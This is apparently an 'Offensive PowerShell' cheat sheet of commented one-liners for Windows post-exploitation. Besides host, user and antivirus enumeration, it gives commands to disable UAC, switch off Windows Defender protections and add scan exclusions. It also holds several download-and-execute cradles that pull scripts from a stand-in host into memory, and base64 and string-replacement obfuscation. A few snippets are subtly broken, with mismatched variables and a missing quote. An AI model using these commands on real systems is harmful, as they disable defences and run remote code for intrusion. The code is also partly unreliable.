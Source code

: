 # Offensive PowerShell

\# Cmdlet Help  
`Get-Help <CMDLET>`  
\# List all running processes  
`Get-Process`  
\# Execution Policy Information  
`Get-ExecutionPolicy -List`  
\# Allow unsigned scripts execution for the current user  
`Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser`  
`powershell -ep bypass`  
\# Get UAC Configuration  
`Get-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\Policies\System" | Select-Object -Property EnableLUA,ConsentPromptBehaviorAdmin`  
(EnableLUA = UAC [0 = False, 1 = True], ConsentPromptBehaviorAdmin = Prompt Behavior [0-5])  
\# Disable UAC (requires admin)  
`cmd.exe /c "C:\Windows\System32\cmd.exe /k %windir%\System32\reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f"`  
\# Get Current Computer Information  
`Get-ComputerInfo -Property CsName,WindowsVersion,WindowsBuildLabEx,WindowsEditionId,OsArchitecture,CsProcessors,CsTotalPhysicalMemory`  
\# Get Network Interfaces Information  
`Get-NetAdapter`  
`Get-NetIPAddress`  
`Get-NetIPConfiguration`  
\# Get Local Users Information  
`Get-LocalUser | Select-Object Name,SID,Enabled,LastLogon,Created,Modified`  
\# Get Local Groups Information  
`Get-LocalGroup`  
`Get-LocalGroupMember -Group <GROUP NAME>`  
\# Get Firewall Information  
` Get-NetFirewallProfile`  
\# Get Windows Defender Status  
`Get-MpComputerStatus | Select AntivirusEnabled,RealTimeProtectionEnabled,IoavProtectionEnabled,AntispywareEnabled,IsTamperProtected`  
`Get-MpPreference` (some items require admin access to display information)  
\# List other AV Products  
`Get-CimInstance -Namespace root/SecurityCenter2 -ClassName AntivirusProduct`  
`'0x{0:x}' -f <ProductState>`  (10 from the 4th number position = on)  
\# Disables realtime monitoring (requires admin)    
`Set-MpPreference -DisableRealtimeMonitoring $true`  
\# Disables scanning for downloaded files or attachments (requires admin)    
`Set-MpPreference -DisableIOAVProtection $true`  
\# Disable behaviour monitoring (requires admin)    
`Set-MPPreference -DisableBehaviourMonitoring $true`  
\# Make exclusion for a certain folder (requires admin)    
`Add-MpPreference -ExclusionPath "C:\Windows\Temp"`  
\# Disables cloud detection (requires admin)    
`Set-MPPreference -DisableBlockAtFirstSeen $true`  
\# Disables scanning of .pst and other email formats (requires admin)    
`Set-MPPreference -DisableEmailScanning $true`  
\# Disables script scanning during malware scans (requires admin)    
`Set-MPPReference -DisableScriptScanning $true`  
\# Exclude files by extension (requires admin)  
`Set-MpPreference -ExclusionExtension "ps1"`  
\# Code Injection - Invoke-Expression  
`$<STRING> = 'Write-Output "Test text!"'`  
`Invoke-Expression $<STRING>`  
\# Remote Code Execution - Invoke-Command  
`$computer = "<COMPUTER>"`  
`$creds = Get-Credential`  
`$script = { Write-Output "Test text!" }`  
`Invoke-Command -ComputerName $computer -Credential $creds -ScriptBlock $script`  
#\ Remote Code Execution - Invoke-RestMethod (Download and run remote scripts)  
`$url = "https://site.com/script.ps1"`  
`$script = Invoke-RestMethod -Uri $url`  
`Invoke-Expression $script`  
\# Remote Code Execution - Start-Process (open a new PS instance and run a downloaded script - useful to bypass execution policies)  
`$url = "https://site.com/script.ps1"`  
`Invoke-WebRequest -Uri $url -OutFile "script.ps1"`  
`Start-Process powershell.exe -ArgumentList "-ExecutionPolicy Bypass -File script.ps1"`  
\# Remote Code Execution - IEX = Invoke-Expression (run script from memory)  
`$url = "https://site.com/script.ps1"`  
`IEX (New-Object System.Net.WebClient).DownloadString($url)`  
\# Remote Code Execution - Invoke-WebRequest (run script from memory)  
`$url = "https://site.com/script.ps1`  
`$script = Invoke-WebRequest -Uri $url -UseBasicParsing`  
`Invoke-Expression $script.Content`  
\# Remote Code Execution - Invoke-RestMethod (run script from memory)  
`$url = "https://site.com/script.ps1"`  
`$script = Invoke-RestMethod -Uri $url`  
`Invoke-Expression $script`  
\# Remote Code Execution - BitsTransfer (run script from memory)  
`$url = "https://site.com/script.ps1"`  
`Import-Module BitsTransfer`  
`Start-BitsTransfer -Source $url -Destination "script.ps1"`  
`Invoke-Expression -Command (Get-Content -Path "script.ps1" -Raw)`  
\# Remote Code Execution - Code Compression / Decompression (run script from memory)  
`$url = "https://site.com/script.ps1.gz"`  
`$compressed = (New-Object System.Net.WebClient).DownloadData($url)`  
`$stream = New-Object IO.MemoryStream`  
`$stream.Write($compressed, 0, $compressed.Length)`  
`$stream.Seek(0, [System.IO.SeekOrigin]::Begin) | Out-Null`  
`$gzip = New-Object IO.Compression.GzipStream($stream,[IO.Compression.CompressionMode]::Decompress)`  
`$reader = New-Object IO.StreamReader($gzip)`  
`$script = $reader.ReadToEnd()`  
`Invoke-Expression $script`  
\# Code Obfuscation - base64 Encoding  
`$text = "Test encoded text"`  
`$bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)`  
`$encoded =[Convert]::ToBase64String($bytes)`  
`Invoke-Expression $encoded`  
\# Code Obfuscation - base64 Decoding  
`$encoded = "VABlAHMAdAAgAGUAbgBjAG8AZABlAGQAIAB0AGUAeAB0AA=="`  
`$decoded = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($encoded))`  
`Invoke-Expression $decoded`  
\# Code Obfuscation - Characters Replacement  
`$obfuscated = "abcdef-ghijkl 'Test text'"`  
`$command = $obfuscatedCommand -replace 'abcdef', 'Write' -replace 'ghijkl', 'Output'`  
`Invoke-Expression $command`  
